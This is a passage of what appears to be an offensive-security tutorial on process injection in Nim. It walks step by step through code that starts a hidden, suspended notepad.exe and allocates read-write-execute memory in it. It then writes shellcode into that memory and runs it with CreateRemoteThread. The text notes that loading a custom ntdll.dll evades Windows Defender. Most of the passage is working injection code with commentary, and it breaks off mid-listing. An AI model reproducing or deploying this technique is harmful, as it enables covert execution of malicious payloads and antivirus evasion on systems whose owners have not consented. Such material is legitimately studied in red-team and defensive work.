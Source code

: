     ### end process injection code


First we define our function, which in Nim is called a procedure.  We pass our shellcode variable into the procedure, and print a line of text to standard out.  The next lines start an instance of notepad.exe and immediately suspend it, which causes the window to remain unseen.


    # Open the process so we can access it with a handle
        let processHandle = OpenProcess(PROCESS_ALL_ACCESS,false,cast[DWORD](injectedProcess.processID))
    
        echo "[*] Injected process handle: ", processHandle
        
    ### end process injection code


Next we access our suspended process and assign that action to the variable processHandle and print another line of text to standard out.


    # Call VirtualAllocEx to make some memory space
        let memPointer = VirtualAllocEx(processHandle,NULL,cast[SIZE_T](shellcode.len),MEM_COMMIT,PAGE_EXECUTE_READ_WRITE)
    
    ### end process injection code

Here we use the VirtualAllocEx function to create enough memory space inside our suspended process to hold our shellcode and set the permissions to allow us to read, write, and execute code in our process.  This action would normally be flagged by Windows Defender if we had not loaded our own ntdll.dll.


    # Call WriteProcessMemory to write shellcode to our memory space
        var bytesWritten: SIZE_T
        let writeProcess = WriteProcessMemory(processHandle,memPointer,unsafeAddr shellcode,cast[SIZE_T](shellcode.len),addr bytesWritten)
    
        echo "[*] WriteProcessMemory: ", bool(writeProcess)
        echo "    \\-- bytes written: ", bytesWritten
        echo ""
    
    ### end process injection code


In this block, we use the WriteProcessMemory function to write the shellcode to our prepared memory space and then print some results to standard out.

    # Call CreateRemoteThread to execute a thread with our shellcode
        let threadHandle = CreateRemoteThread(processHandle,NULL,0,cast[LPTHREAD_START_ROUTINE](memPointer),NULL,0,NULL)
    